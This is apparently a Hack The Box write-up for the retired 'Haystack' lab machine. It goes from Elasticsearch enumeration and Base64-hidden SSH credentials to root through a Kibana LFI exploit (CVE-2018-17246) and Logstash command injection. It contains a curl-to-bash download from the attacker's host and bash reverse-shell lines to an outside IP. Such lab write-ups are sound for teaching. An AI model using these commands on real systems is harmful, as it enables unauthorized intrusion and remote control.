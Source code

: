 # Haystack

This is the write-up for the box Haystack that got retired at the 2nd November 2019.
My IP address was 10.10.14.40 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.115    haystack.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/haystack.nmap 10.10.10.115
```

```markdown
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    nginx 1.12.2
| http-methods:
|_  Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
```

## Checking HTTP (Port 80)

On the web page there is an image of a needle in a haystack and nothing interesting in the source code.

## Checking HTTP (Port 9200)

On the web page on port 9200 there is some kind of API where it shows data in JSON format:

![JSON data](haystack_web-1.png)

The clustername indicates that there is an **Elasticsearch** service installed on the server.
When looking at the [Elasticsearch Reference](https://www.elastic.co/guide/en/elasticsearch/reference/6.4/index.html) at the _Document APIs_ and _cat APIs_, we can get some information about this application with those methods.

Basic usage of the _cat_ command:
```markdown
curl http://10.10.10.115:9200/_cat/master?v
```

This outputs some general master information but we can look for more information by only typing in the _cat_ command.
Lets look at the indices:
```markdown
curl http://10.10.10.115:9200/_cat/indices?v

# Output
health status index   uuid                   pri rep docs.count docs.deleted store.size pri.store.size
green  open   .kibana 6tjAYZrgQ5CwwR0g6VOoRg   1   0          1            0        4kb            4kb
yellow open   quotes  ZG2D1IqkQNiNZmi2HRImnQ   5   1        253            0    262.7kb        262.7kb
yellow open   bank    eSVpNfCfREyYoVigNWcrMw   5   1       1000            0    483.2kb        483.2kb
```

We can look inside the index _quotes_ with the following request. I use `jq` to make the JSON output more readable:
```markdown
curl http://10.10.10.115:9200/quotes/_search | jq .
```

This outputs a bunch of Spanish texts. Before working with those, it would be practical to only display the quote values and filter out the other JSON key-value pairs.
```markdown
curl -s http://10.10.10.115:9200/quotes/_search?size=253 | jq '.hits .hits[] .\_source .quote'
```

Now we get only the Spanish quotes from all 253 documents.

### Analyzing the Spanish quotes

To make sense of the Spanish strings, we should send them to a translation service.
For this task, I wrote a Python script that can be found in this repository.
```markdown
python3 haystack_quotes.py | tee quotes-translated.txt
```

After executing this script, it translates all the quotes to English and we can put this into a file to search for interesting results.
```markdown
cat quotes-translated.txt | grep -i password
cat quotes-translated.txt | grep -i secret
cat quotes-translated.txt | grep -i key
```

The word _key_ finds something interesting:
```markdown
This key can not miss, I keep it here: cGFzczogc3BhbmlzaC5pcy5rZXk =
I have to keep the key to the machine: dXNlcjogc2VjdXJpdHkg
```

These strings look like **Base64** so lets decode them:
```markdown
echo 'cGFzczogc3BhbmlzaC5pcy5rZXk' | base64 -d

# Output
user: security
```

```markdown
echo 'cGFzczogc3BhbmlzaC5pcy5rZXk=' | base64 -d

# Output
pass: spanish.is.key
```

The only login we know of is **SSH**, so lets try to log in with the user _security_ and the password _spanish.is.key_ there:
```markdown
ssh security@10.10.10.115
```

This works and we are logged in on the box as the user _security_.

## Privilege Escalation

We should run any **Linux Enumeration script** on the box to get an attack surface:
```markdown
curl 10.10.14.40:8000/LinEnum.sh | bash
```

After analyzing the output, we have the following information:
- There are groups called _kibana_, _logstash_ and _elasticsearch_
- The box is listening on port 5601 on 127.0.0.1

So this means that there is an **ELK Stack** installed on the box.
By default **Kibana** runs on port 5601 and we can verify that by requesting the HTTP page:
```markdown
curl 127.0.0.1:5601
```

With **SSH port forwarding** it is possible to connect to the service from our local client.

### SSH Port forwarding

With the shortcut `~C` the shell starts the ssh command prompt.
In here we can set up the port forwarding:
```markdown
ssh> -L 5602:127.0.0.1:5601
```

This opens port _5602_ on my local client and forwards the service from port _5601_ through the SSH session.
Now we can access the **Kibana** service on our local client.
```markdown
http://localhost:5602
```

### Exploiting Kibana

On _Management_ it shows that this is version 6.4.2 which is from October 2018 and could have some vulnerabilities.
After researching for vulnerabilities, there is this [Local File Inclusion](https://github.com/mpgn/CVE-2018-17246) with a script that can execute a reverse shell on the server.

Lets create a file on the box called _rev.js_ and modify the script to connect to our IP address and then exploit the LFI by requesting the described path:
```markdown
curl 'http://localhost:5602/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/rev.js'
```

The listener on my IP and port 1337 starts a reverse shell as the user _kibana_.

### Privilege Escalation to root

The files in _/etc/logstash_ are owned by the user root and the group _kibana_ with read permissions.
In _/etc/logstash/conf.d_ there are the configuration files for **Logstash**:
```markdown
# input.conf

input {
        file {
                path => "/opt/kibana/logstash_*"
                start_position => "beginning"
                sincedb_path => "/dev/null"
                stat_interval => "10 second"
                type => "execute"
                mode => "read"
        }
}
```

```markdown
# filter.conf

filter {
        if [type] == "execute" {
                grok {
                        match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }
        }
}
```

```markdown
# output.conf

output {
        if [type] == "execute" {
                stdout { codec => json }
                exec {
                        command => "%{comando} &"
                }
        }
}
```

We need to create a file called _/opt/kibana/logstash*_ that will be executed.
The string from the filter has to be in that file.

I call the file _logstash_test_ and it has the following contents:
```markdown
Ejecutar comando : bash -i >& /dev/tcp/10.10.14.40/9001 0>&1
```

After a while the listener on my IP and port 9001 starts a reverse shell connection as root!
